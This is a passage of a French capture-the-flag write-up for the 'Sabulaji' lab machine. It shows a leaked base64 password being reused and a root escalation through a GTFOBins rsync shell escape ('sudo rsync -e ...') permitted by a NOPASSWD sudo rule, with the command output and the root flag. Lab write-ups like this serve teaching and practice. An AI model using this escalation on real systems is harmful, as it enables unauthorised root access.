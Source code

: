 Mate un peu ça :

```console
welcome@Sabulaji:/home/sabulaji$ sudo -u sabulaji /opt/sync.sh personal/creds.txt
Difference: 0a1
> Sensitive Credentials:Z2FzcGFyaW4=
[+] Updated.
```

Le base64 se décode en `gasparin`  mais en réalité le base64 est le mot de passe.

```console
sabulaji@Sabulaji:~$ sudo -l
Matching Defaults entries for sabulaji on Sabulaji:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sabulaji may run the following commands on Sabulaji:
    (ALL) NOPASSWD: /usr/bin/rsync
```

Pour terminer le CTF on aura recours à un [GTFObin](https://gtfobins.github.io/gtfobins/rsync/#shell).

```console
sabulaji@Sabulaji:~$ sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
flag{root-89e62d8807f7986edb259eb2237d011c}
```
